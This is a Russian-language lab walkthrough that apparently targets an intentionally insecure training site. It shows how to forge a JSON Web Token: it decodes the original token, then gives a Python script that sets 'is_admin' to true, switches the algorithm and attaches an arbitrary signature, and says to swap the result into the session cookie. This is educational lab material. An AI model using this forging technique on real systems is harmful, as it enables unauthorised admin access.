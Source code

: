 Для наглядности идем [сюда](https://jwt.io/) и декодируем Header и Payload из JWT токена. Результат:

- Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
- Payload
```json
{
  "username": "user",
  "is_admin": false
}
```

### Шаг 2
 
Генерируем новый JWT токен, у которого третья часть (Signature) абсолютно любая. 
Для этого можно использовать следующий код для Python 3

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print("%s.%s.%s" % (
    b64urlencode("{\"typ\":\"JWT\",\"alg\":\"RS256\"}"), # Header
    b64urlencode("{\"username\":\"user\",\"is_admin\":true}"), # Payload
    b64urlencode("secret_signature") # Some signature, not important
    )
)
```

Полученный JWT токен: 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6dHJ1ZX0.c2VjcmV0X3NpZ25hdHVyZQ
```

### Шаг 4

Заходим на http://jwt_insecure.lab/index_1 и меняем в заголовке запроса значение session cookie на сгенерированный токен.

Исходный запрос

![](img/utp_6.png)
